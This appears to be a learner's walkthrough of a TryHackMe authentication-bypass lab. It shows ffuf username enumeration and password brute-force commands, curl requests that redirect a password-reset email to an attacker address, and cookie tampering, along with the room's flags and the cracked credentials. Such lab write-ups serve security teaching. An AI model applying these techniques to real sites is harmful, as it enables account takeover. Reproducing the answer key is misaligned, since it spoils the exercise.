





# Authentication Bypass
   
Learn how to defeat logins and other authentication mechanisms to allow you access to unpermitted areas.

[Link](https://tryhackme.com/room/authenticationbypass)


# 1: Brief

In this room, we will learn about different ways website authentication methods can be bypassed, defeated or broken. These vulnerabilities can be some of the most critical as it often ends in leaks of customers personal data.  
  
Start the machine and then proceed to the next task.


# 2: Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks.

  

Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user account if we go to the Acme IT Support website ([http://MACHINE\_IP/customers/signup](http://machine_ip/customers/signup)) signup page.

  

If you try entering the username **admin** and fill in the other form fields with fake information, you'll see we get the error **An account with this username already exists**. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

  
```bash
# Username enumeration with ffuf

user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```
        

In the above example, the `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The `-d` argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The `-H` argument is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` so the web server knows we are sending form data. The `-u` argument specifies the URL we are making the request to, and finally, the `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

The ffuf tool and wordlist come pre-installed on the **AttackBox** or can be installed locally by downloading it from [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf).  

Create a file called valid\_usernames.txt and add the usernames that you found using ffuf; these will be used in Task 3.  
  
## Answer the questions below

What is the username starting with si*** ?

- simon

What is the username starting with st*** ?

- steve

What is the username starting with ro**** ?

- robert


# 3: Brute Force

Using the valid\_usernames.txt file we generated in the previous task, we can now use this to attempt a brute force attack on the login page ([http://10.10.27.115/customers/login](http://10.10.27.115/customers/login)).

**Note: If you created your valid\_usernames file by piping the output from ffuf directly you may have difficulty with this task. Clean your data, or copy just the names into a new file.**

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

When running this command, make sure the terminal is in the same directory as the valid\_usernames.txt file.
  
```bash
# Bruteforcing with ffuf

user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.27.115/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the **FUZZ** keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. The multiple wordlists are again specified with the `-w` argument but separated with a comma.  For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.  

Running the above command will find a single working username and password combination that answers the question below.  

## Answer the questions below

What is the valid username and password (format: username/password)?

- steve/thunder


# 4: Logic Flaw

**What is a Logic Flaw?**

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.  


**Logic Flaw Example**

The below mock code example checks to see whether the start of the path the client is visiting begins with /admin and if so, then further checks are made to see whether the client is, in fact, an admin. If the page doesn't begin with /admin, the page is shown to the client.  

```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting **/adMin** will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

**Logic Flaw Practical**  

We're going to examine the **Reset Password** function of the Acme IT Support website ([http://10.10.27.115/customers/reset](http://10.10.27.115/customers/reset)). We see a form asking for the email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive the error message "**Account not found from supplied email address**".

  

For demonstration purposes, we'll use the email address robert@acmeitsupport.thm which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we enter robert as the username and press the Check Username button, you'll be presented with a confirmation message that a password reset email will be sent to robert@acmeitsupport.thm.

  

At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.

This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.  

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.  

Let's illustrate this by using the curl tool to manually make the request to the webserver.  

**Curl Request 1:**

```bash
user@tryhackme$ curl 'http://10.10.27.115/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
        

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.  

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.  

- I didn't see the PHP in the terminal or using the debugger. I guess it was discovered just by testing using the next curl command. 

**Curl Request 2:**

```bash
user@tryhackme$ curl 'http://10.10.27.115/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
        


For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`**@customer.acmeitsupport.thm**  

Now rerunning **Curl Request 2** but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

**Curl Request 2 (but using your @acmeitsupport.thm account):**

```bash
user@tryhackme:~$ curl 'http://10.10.27.115/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
        

## Answer the questions below

What is the flag from Robert's support ticket?

- After sending the request you get a support ticket with a link. Open the link in a new tab and you see the request with the flag. 

- THM{AUTH_BYPASS_COMPLETE}






# 5: Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out the [HTTP In Detail](https://tryhackme.com/room/httpindetail) room on task 6.

  

**Plain Text**

The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

**Set-Cookie: logged\_in=true; Max-Age=3600; Path=/**  
**Set-Cookie: admin=false; Max-Age=3600; Path=/**

We see one cookie (logged\_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

First, we'll start just by requesting the target page:  

```bash
# Curl Request 1

user@tryhackme$ curl http://10.10.27.115/cookie-test
```
        

We can see we are returned a message of: **Not Logged In**

Now we'll send another request with the logged\_in cookie set to true and the admin cookie set to false:  

```bash
# Curl Request 2

user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.27.115/cookie-test
```
        

We are given the message: **Logged In As A User**

Finally, we'll send one last request setting both the logged\_in and admin cookie to true:

```bash
# Curl Request 3

user@tryhackme$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.27.115/cookie-test
```

This returns the result: **Logged In As An Admin** as well as a flag which you can use to answer question one.  

**Hashing**  

Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text. Here are some examples that you may come across:

<table class="table table-bordered"><tbody><tr><td><b>Original String</b><br></td><td><b>Hash Method</b><br></td><td><b>Output</b><br></td></tr><tr><td>1<br></td><td>md5<br></td><td><span style="font-size:12px">c4ca4238a0b923820dcc509a6f75849b</span><br></td></tr><tr><td>1<br></td><td>sha-256<br></td><td><span style="font-size:12px">6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b</span><br></td></tr><tr><td>1<br></td><td>sha-512</td><td><span style="font-size:12px">4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a</span><br></td></tr><tr><td>1<br></td><td>sha1<br></td><td><span style="font-size:12px">356a192b7913b04c54574d18c28d46e6395428ab</span></td></tr></tbody></table>

You can see from the above table that the hash output from the same input string can significantly differ depending on the hash method in use. Even though the hash is irreversible, the same output is produced every time, which is helpful for us as services such as [https://crackstation.net/](https://crackstation.net/) keep databases of billions of hashes and their original strings.

**Encoding**

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible. So it begs the question, what is the point in encoding? Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.  
  
Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.

  
Take the below data as an example which is set by the web server upon logging in:

**Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/**

This string base64 decoded has the value of **{"id":1,"admin": false}** we can then encode this back to base64 encoded again but instead setting the admin value to true, which now gives us admin access.

  

## Answer the questions below

What is the flag from changing the plain text cookie values?

- THM{COOKIE_TAMPERING}

What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?

- 463729
- used [crackstation](https://crackstation.net/)



What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?

- THM{BASE64_ENCODING}
- used [cyberchef](https://cyberchef.io/) website for this



Encode the following value using base64 {"id":1,"admin":true}

- eyJpZCI6MSwiYWRtaW4iOnRydWV9

